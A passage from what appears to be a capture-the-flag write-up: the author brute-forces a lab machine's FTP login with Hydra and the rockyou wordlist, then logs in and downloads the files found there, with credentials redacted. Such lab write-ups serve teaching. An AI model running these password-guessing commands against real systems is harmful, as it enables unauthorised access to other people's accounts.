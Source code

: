 <br>

## FTP Digging

We saw that FTP was open from our nmap scan earlier and I fire up Hydra and try to brute force my way in using the agent name we found:

`hydra -l <REDACTED> -P rockyou.txt $ip ftp -V`

```bash
[21][ftp] host: 10.10.14.106   login: <REDACTED>   password: <REDACTED>
```

Sure enough, that was weak and it gives us the answer to the FTP password question.

I login and download the files there:

```bash
Connected to 10.10.14.106.
220 (vsFTPd 3.0.3)
Name (10.10.14.106:kali): <REDACTED>
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||26631|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Oct 29  2019 .
drwxr-xr-x    2 0        0            4096 Oct 29  2019 ..
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> prompt
Interactive mode off.
ftp> mget *
local: To_agentJ.txt remote: To_agentJ.txt
229 Entering Extended Passive Mode (|||23027|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |***********************************************************|   217      482.71 KiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (2.71 KiB/s)
local: cute-alien.jpg remote: cute-alien.jpg
229 Entering Extended Passive Mode (|||43763|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |***********************************************************| 33143      211.87 KiB/s    00:00 ETA
226 Transfer complete.
33143 bytes received in 00:00 (140.68 KiB/s)
local: cutie.png remote: cutie.png
229 Entering Extended Passive Mode (|||25893|)
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
100% |***********************************************************| 34842      218.44 KiB/s    00:00 ETA
226 Transfer complete.
34842 bytes received in 00:00 (146.69 KiB/s)
```
